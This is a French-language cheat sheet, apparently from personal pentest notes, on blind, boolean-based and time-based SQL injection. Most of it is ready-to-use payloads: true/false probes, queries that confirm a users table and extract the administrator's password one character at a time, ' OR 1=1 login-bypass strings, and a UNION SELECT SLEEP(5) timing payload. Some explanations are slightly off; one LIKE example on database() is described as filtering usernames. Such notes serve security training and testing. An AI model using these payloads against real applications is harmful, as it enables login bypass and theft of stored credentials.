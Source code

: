 C'est lorsque nous obtenons peu ou pas de retour pour confirmer si nos requêtes injectées ont réussi ou non, c'est parce que le les messages d'erreur ont été désactivés, mais l'injection fonctionne toujours malgré tout.

## Rechercher

La clé pour découvrir une Blind SQL est de se baser sur une relation conditionnelle vrai ou faux. 

```sh
# Vrai
' and 'a'='a

# Faux
' and 'a'='b
```

- Si la request `vrai` affiche un contenu et la requete `faux` n'affiche pas alors le champ est vulnerable.

---

Affiche la version du serveur 

```sql
' and substring(@@version,1,1)='0
-- Si sa ne fonctionne pas il faut incrementer la valeur de 0 a 1,2,3,4.... jusqu'a obtenir du contenu comme dans la requete `vrai`. Cela affiche le premier caractere de la version du serveur.
```

```sql
' AND (SELECT 'a' FROM users LIMIT 1)='a
-- confirmant qu'il existe une table appelée users.

' AND (SELECT 'a' FROM users WHERE username='administrator')='a
-- confirmant qu'il existe un utilisateur appelé administrator.

' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
-- déterminer le nombre de caractères du mot de passe de l' administrator. Cette condition doit être vraie, confirmant que le mot de passe comporte plus d'un caractère.

' AND SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 's

' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
-- confirmer que le premier caractère du mot de passe est s ou a
```

**Bypass Authentication**

Saisir ce qui suit dans le champ utilisateur ou du mot de passe: 

```sql
' OR 1=1;--
' or 1=1; -- -
') or 1=1; -- -
```

Que se passe-t-il si nous y saisissons `' or true --` dans le champ du nom d'utilisateur ?

```sql
') or true --
```

### Booleans Bases

```sql
select * from <table> where database() like 'a%';
```

Cela renvoie toutes les lignes dont le nom d'utilisateur commence par la lettre a.

```sql
select * from <table> where database() like '%n';
```

Cela renvoie toutes les lignes dont le nom d'utilisateur se termine par la lettre n.

```sql
select * from <table> where username like '%mi%';
```

Cela renvoie toutes les lignes avec un nom d'utilisateur contenant les caractères mi en leur sein.

## Time Base

Au lieu de cela, votre indicateur d'une requête correcte est basé sur le temps que la requête prend pour se terminer. Ce délai est introduit en utilisant des méthodes intégrées telles que **`SLEEP(x)`** parallèlement à l'instruction UNION. 
La méthode sleep ne sera exécutée qu'après une instruction UNION SELECT réussie.

> S'il n'y a pas eu de pause dans le temps de réponse, on sait que la requête a échoué.

```sql
admin123' UNION SELECT SLEEP(5),2;--
```